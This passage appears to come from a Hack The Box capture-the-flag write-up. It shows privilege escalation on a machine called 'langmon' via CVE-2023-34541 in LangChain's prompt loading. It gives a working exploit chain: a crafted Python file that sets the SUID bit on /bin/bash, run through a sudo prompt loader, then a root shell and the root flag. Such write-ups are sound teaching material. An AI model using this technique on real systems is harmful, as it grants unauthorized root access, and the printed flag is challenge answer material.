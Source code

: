 Doing some research revolving around langchain.prompts lead me to this article discussing CVE-2023-34541.
[https://tutorialboy.medium.com/langchain-arbitrary-command-execution-cve-2023-34541-8f56fe2737b0](https://tutorialboy.medium.com/langchain-arbitrary-command-execution-cve-2023-34541-8f56fe2737b0)

```sh
echo -e "import os\nos . system ( "chmod u+s /bin/bash")" > /tmp/system.py
developer@langmon:/tmp$ sudo /opt/prompt_loader.py /tmp/system.py
There is something wrong with the prompt file.

developer@langmon:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan 6 2022 /bin/bash

developer@langmon:/tmp$ /bin/bash -p
bash-5.1# cat /root/root.txt
HTB{7h3_m4ch1n35_5p34k_w3_h34r}
```

Root Flag: `HTB{7h3_m4ch1n35_5p34k_w3_h34r}`


